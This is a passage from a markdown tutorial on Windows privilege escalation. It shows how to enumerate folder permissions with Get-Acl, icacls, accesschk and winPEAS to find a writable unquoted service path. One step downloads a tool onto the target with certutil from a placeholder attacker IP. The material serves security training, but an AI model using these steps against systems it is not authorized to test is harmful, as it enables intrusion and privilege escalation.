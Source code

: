 ```yaml
---
legal-banner: true
---
```


### **ENUMERATING SERVICE WITH GET-ACL (POWERSHELL)**

1.  Get-Acl is a built-in cmdlet in PowerShell and comes by default with Windows PowerShell. You do not need to install any additional modules to use it.  
    `https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.security/get-acl?view=powershell-7.4`  
    
    ![](../../../../img/Windows-Environment/78.png)

    **NOTE:** we can use the following command to enumerate the folder permissions
    
2.  We can see that Get-Acl doesn’t explicitly say “Modify” for C:\\ like icacls does. Instead, it provides an "Access Mask Format", where the numbers represent specific permissions, with one of them essentially being the numerical representation for Modify.  
    `Get-Acl -Path C:\ | Format-List`  
    
    ![](../../../../img/Windows-Environment/79.png)
    
3.  Numerical value -1610612736 represents Read and Execute permissions.  
    `Get-Acl -Path "C:\Program Files" | Format-List`  
    
    ![](../../../../img/Windows-Environment/80.png)

    
4.  And here we found that BUILTIN\\Users have FullControl on C:\\Program Files\\Unquoted Path Service.  
    `Get-Acl -Path "C:\Program Files\Unquoted Path Service" | Format-List`

    ![](../../../../img/Windows-Environment/81.png)

    

### **ENUMERATING SERVICE WITH ICALCS (CMD)**

1.  To verify permissions with icacls, it's important to understand the permissions for each directory.  
    Check [Microsoft documentation](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/icacls) to learn more about permissions.

    ![](../../../../img/Windows-Environment/82.png)
    
2.  Administrators and SYSTEM have Full Control, and Authenticated Users can create folders but not files.  
    `icacls C:\`

    ![](../../../../img/Windows-Environment/83.png)
    
3.  TrustedInstaller has Full Control, SYSTEM and Administrators have Modify and Full Control, and Users have Read and Execute permissions.  
    `icacls "C:\Program Files"`

    ![](../../../../img/Windows-Environment/84.png)
    
4.  Users have Full Control SYSTEM, and Administrators have Full Control with inherited permissions.  
    `icacls "C:\Program Files\Unquoted Path Service"`

    ![](../../../../img/Windows-Environment/85.png)
    
5.  All users have Read & Execute permissions, SYSTEM, and Administrators have inherited Full Control, CREATOR OWNER has inherited Full Control  
    `icacls "C:\Program Files\Unquoted Path Service\Common Files"`

    ![](../../../../img/Windows-Environment/86.png)
    
6.  Our POC shows that moving an EXE file to C:\\, C:\\Program Files, or C:\\Program Files\\Unquoted Path Service\\Common Files is blocked, but it succeeds in C:\\Program Files\\Unquoted Path Service\\.

    ![](../../../../img/Windows-Environment/87.png)

    

### **ENUMERATING SERVICE PERMISSION WITH ACCESSCHK**

1.  If you don't have the Sysinternals Suite on your machine, you can download it from the official [Microsoft Website](https://learn.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite).

    ![](../../../../img/Windows-Environment/88.png)

    **NOTE:** We have identified that the target machine is a 64-bit architecture using the following command:  
    `systeminfo | findstr /B /C:"System Type"`
    
2.  Host the binary using Pythong HTTP server and transfer it to the target Machine with certutil.  
    `certutil -urlcache -f http://[IP-ADRESS]:8000/accesschk64.exe accesschk64.exe`

    ![](../../../../img/Windows-Environment/89.png)
 

    **NOTE:** With accesschk now on the target system, we can use the following command to enumerate the folder permissions
    
3.  The output from AccessChk shows our permissions on C: It indicates that we have write (W) access, but it is restricted to creating folders only (FILE_ADD_SUBDIRECTORY).  
    `.\accesschk64.exe -wvud "C:\" -accepteula`

    ![](../../../../img/Windows-Environment/90.png)

    
4.  accesschk64.exe shows that NT AUTHORITY\\SYSTEM and BUILTIN\\Administrators have extensive permissions,  
    while a standard user has no write permissions.  
    `.\accesschk64.exe -wvud "C:\Program Files" -accepteula`

    ![](../../../../img/Windows-Environment/91.png)

    
5.  finally All users, including standard users, have full write permissions in C:\\Program Files\\Unquoted Path Service.  
    `.\accesschk64.exe -wvud "C:\Program Files\Unquoted Path Service" -accepteula`

    ![](../../../../img/Windows-Environment/92.png)    

### **ENUMERATING SERVICE WITH WINPEAS**

1.  When we used winPEAS in the Hunting Section, we found an unquoted service path in the “Service Information” section.

    ![](../../../../img/Windows-Environment/93.png)


2.  we can scroll down through the output to the “Application Information” section and then check under the “Installed Applications” sub-section. If we can exploit this service, we will identify which folder in the unquoted service path has write permissions.

    ![](../../../../img/Windows-Environment/94.png)

??? info "NOTE"

    If we do not find a writable folder in this section associated with the unquoted service path, we likely won’t be able to exploit this service.